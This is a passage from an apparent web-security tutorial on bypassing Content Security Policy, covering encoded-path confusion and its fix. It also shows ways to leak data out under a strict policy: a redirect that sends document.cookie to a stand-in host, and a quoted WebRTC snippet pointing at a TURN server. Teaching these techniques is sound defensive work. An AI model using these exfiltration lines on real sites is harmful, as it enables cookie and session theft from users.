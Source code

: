 This works because for the browser, you are loading a file named `..%2fangular%2fangular.js` located under `https://example.com/scripts/react/`, which is compliant with CSP.

However, for certain servers, when receiving the request, they will decode it, effectively requesting `https://example.com/scripts/react/../angular/angular.js`, which is equivalent to `https://example.com/scripts/angular/angular.js`.

By exploiting this inconsistency in URL interpretation between the browser and the server, the path rules can be bypassed.

The solution is to not treat `%2f` as `.` on the server-side, ensuring consistent interpretation between the browser and the server to avoid this issue.

## Other Bypass Techniques

The previously mentioned techniques mainly focus on bypassing CSP rules. Now, let's discuss bypassing techniques that exploit the limitations of CSP itself.

For example, suppose a website has a strict CSP but allows the execution of JavaScript:

``` html
<!DOCTYPE html>
<html>
<head>
  <meta http-equiv="Content-Security-Policy" content="default-src 'none'; script-src 'unsafe-inline';">
</head>
<body>
  <script>
    // any JavaScript code
  </script>
</body>
</html>
```

The goal is to steal `document.cookie`. How can this be achieved?

Stealing the cookie is not the problem; the problem lies in transmitting it externally. Since CSP blocks the loading of all external resources, whether it's `<img>`, `<iframe>`, `fetch()`, or even `navigator.sendBeacon`, they will all be blocked by CSP.

In this case, there are several ways to transmit the data. One way is to use `window.location = 'https://example.com?q=' + document.cookie` to perform a page redirect. Currently, there are no CSP rules that can restrict this method, but in the future, a rule called [navigate-to](https://udn.realityripple.com/docs/Web/HTTP/Headers/Content-Security-Policy/navigate-to) may be introduced.

The second method is to use WebRTC, and the code is as follows (from [WebRTC bypass CSP connect-src policies #35](https://github.com/w3c/webrtc-nv-use-cases/issues/35)):

``` js
var pc = new RTCPeerConnection({
  "iceServers":[
      {"urls":[
        "turn:74.125.140.127:19305?transport=udp"
       ],"username":"_all_your_data_belongs_to_us",
      "credential":"."
    }]
});
pc.createOffer().then((sdp)=>pc.setLocalDescription(sdp);
```
